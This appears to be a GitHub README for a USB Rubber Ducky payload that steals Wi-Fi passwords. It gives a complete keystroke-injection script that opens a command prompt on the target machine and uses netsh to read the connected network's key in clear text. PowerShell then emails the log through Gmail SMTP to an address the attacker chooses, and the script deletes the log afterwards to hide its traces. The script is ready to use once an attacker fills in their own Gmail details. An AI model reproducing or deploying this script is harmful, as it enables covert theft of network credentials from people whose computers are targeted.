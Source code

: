 # This payload:
1. Opens CMD
2. Finds the key (password) of the WiFi the target is connected to
3. Saves the SSID, Network type, Authentication and the key to Log.txt
4. And emails Log.txt via gmail

### Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* **RECEIVER**: The email you want to send Log.txt to

If you have **any suggestions** please **tell me**.

## **Code**:
```
REM Author: Siem
REM Version: 2.1
REM Description: Clear text WiFi key grabber
DELAY 2500
WINDOWS d

REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 1000

REM --> Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "B"') do set A=%A
ENTER

REM --> Creating Temp.txt
STRING netsh wlan show profiles %A% | findstr "Network type" | findstr /v "broadcast" | findstr /v "Radio">>Temp.txt & netsh wlan show profiles %A% | findstr "Authentication">>Temp.txt & netsh wlan show profiles %A% key=clear | findstr "Key Content">>Temp.txt
ENTER

REM --> Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" Temp.txt') do set B=%A
ENTER

REM --> Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" Temp.txt') do set C=%A
ENTER

REM --> Get key
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" Temp.txt') do set D=%A
ENTER

REM --> Delete Temp.txt
STRING del Temp.txt
ENTER

REM --> Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER

REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi'
ENTER
STRING $ReportEmail.Body = 'The log is attached!'
ENTER
STRING $ReportEmail.Attachments.Add('Log.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING exit
ENTER

REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
```